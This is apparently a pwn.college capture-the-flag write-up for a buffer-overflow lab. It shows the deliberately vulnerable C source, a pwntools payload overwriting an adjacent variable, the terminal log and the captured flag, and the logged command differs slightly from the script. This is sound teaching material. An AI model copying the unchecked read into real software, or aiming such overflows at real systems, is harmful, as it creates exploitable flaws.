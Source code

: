 # Binary Exploitation

## Your First Overflow (hard)

### Solve :

**Flag:** `pwn.college{YpLUq9AmxKFeW2ljjvL2EsJkDm4.dBTOywSO5EzNzEzW}`

Opening the `.c` file for the challenge, i got
```c
#define _GNU_SOURCE 1

#include <stdlib.h>
#include <stdint.h>
#include <stdbool.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <time.h>
#include <errno.h>
#include <assert.h>
#include <libgen.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/socket.h>
#include <sys/wait.h>
#include <sys/signal.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <sys/sendfile.h>
#include <sys/prctl.h>
#include <sys/personality.h>
#include <arpa/inet.h>

void bin_padding()
{
    asm volatile (".rept 427; nop; .endr");
}

void win()
{
    static char flag[256];
    static int flag_fd;
    static int flag_length;

    puts("You win! Here is your flag:");
    flag_fd = open("/flag", 0);
    if (flag_fd < 0)
    {
        printf("\n  ERROR: Failed to open the flag -- %s!\n", strerror(errno));
        if (geteuid() != 0)
        {
            printf("  Your effective user id is not 0!\n");
            printf("  You must directly run the suid binary in order to have the correct permissions!\n");
        }
        exit(-1);
    }
    flag_length = read(flag_fd, flag, sizeof(flag));
    if (flag_length <= 0)
    {
        printf("\n  ERROR: Failed to read the flag -- %s!\n", strerror(errno));
        exit(-1);
    }
    write(1, flag, flag_length);
    printf("\n\n");
}

int challenge(int argc, char **argv, char **envp)
{
    struct
    {
        char input[78];
        int win_variable;
    } data  = {0} ;

    unsigned long size = 0;

    size = 4096;

    printf("Send your payload (up to %lu bytes)!\n", size);
    int received = read(0, &data.input, (unsigned long) size);

    if (received < 0)
    {
        printf("ERROR: Failed to read input -- %s!\n", strerror(errno));
        exit(1);
    }

    if (data.win_variable)
    {
        win();
    }

    puts("Goodbye!");

    return 0;
}

int main(int argc, char **argv, char **envp)
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    char crash_resistance[0x1000];

    challenge(argc, argv, envp);

}
```
This contains the struct,
```c
struct {
    char input[78];     
    int win_variable;    
} data = {0};

```
The read function reads 4096 bytes, but the input only allowed for 78 bytes of input.
To overcome this,  
```python
from pwn import *

r = process('./binary-exploitation-first-overflow-hard')
r.send(b'A'*80 + p32(1))
print(r.readall())
```
and ran it using `python3 -c "from pwn import *; r = process('./binary-exploitation-first-overflow-hard'); r.send(b'A'*80 + p32(1)); print(r.readall())"`

In this snippet, `b'A'*80` overflows the buffer which is of 78 bytes + 2 padding bytes.

I got the flag with this.
```
hacker@binary-exploitation~your-first-overflow-hard:/challenge$ python3 -c "from pwn import *; r = process('./binary-exploitation-first-overflow')
; r.send(b'A'*80 + p32(1)); print(r.readall())""
[+] Starting local process './binary-exploitation-first-overflow': pid 153
[+] Receiving all data: Done (135B)
[*] Process './binary-exploitation-first-overflow' stopped with exit code 0 (pid 153)
b'Send your payload (up to 4096 bytes)!\nYou win! Here is your flag:\npwn.college{YpLUq9AmxKFeW2ljjvL2EsJkDm4.dBTOywSO5EzNzEzW}\n\n\nGoodbye!\n'
hacker@binary-exploitation~your-first-overflow-hard:/challenge$ 
```
